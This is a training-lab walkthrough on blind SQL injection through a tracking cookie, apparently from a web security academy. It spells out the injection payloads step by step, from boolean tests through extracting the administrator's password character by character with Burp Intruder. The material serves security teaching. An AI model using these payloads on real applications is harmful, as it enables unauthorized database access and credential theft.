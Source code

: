 Lab: Blind SQL injection with conditional responses
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.


Solution

Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is TrackingId=xyz.
Modify the TrackingId cookie, changing it to:

TrackingId=xyz' AND '1'='1
Verify that the Welcome back message appears in the response.

Now change it to:

TrackingId=xyz' AND '1'='2
Verify that the Welcome back message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

Now change it to:

TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
Verify that the condition is true, confirming that there is a table called users.

Now change it to:

TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
Verify that the condition is true, confirming that there is a user called administrator.

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
This condition should be true, confirming that the password is greater than 1 character in length.

Send a series of follow-up values to test different password lengths. Send:

TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
Then send:

TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the Welcome back message disappears), you have determined the length of the password, which is in fact 20 characters long.

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
In Burp Intruder, change the value of the cookie to:

TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the Add § button. You should then see the following as the cookie value (note the payload position markers):

TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. In the Payloads side panel, check that Simple list is selected, and under Payload configuration add the payloads in the range a - z and 0 - 9. You can select these easily using the Add from list drop-down.
To be able to tell when the correct character was submitted, you'll need to grep each response for the expression Welcome back. To do this, click on the  Settings tab to open the Settings side panel. In the Grep - Match section, clear existing entries in the list, then add the value Welcome back.
Launch the attack by clicking the  Start attack button.
Review the attack results to find the value of the character at the first position. You should see a column in the results called Welcome back. One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.
Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the Intruder tab, and change the specified offset from 1 to 2. You should then see the following as the cookie value:

TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
Launch the modified attack, review the results, and note the character at the second offset.
Continue this process testing offset 3, 4, and so on, until you have the whole password.
In the browser, click My account to open the login page. Use the password to log in as the administrator user.
Note
For more advanced users, the solution described here could be made more elegant in various ways. For example, instead of iterating over every character, you could perform a binary search of the character space. Or you could create a single Intruder attack with two payload positions and the cluster bomb attack type, and work through all permutations of offsets and character values.
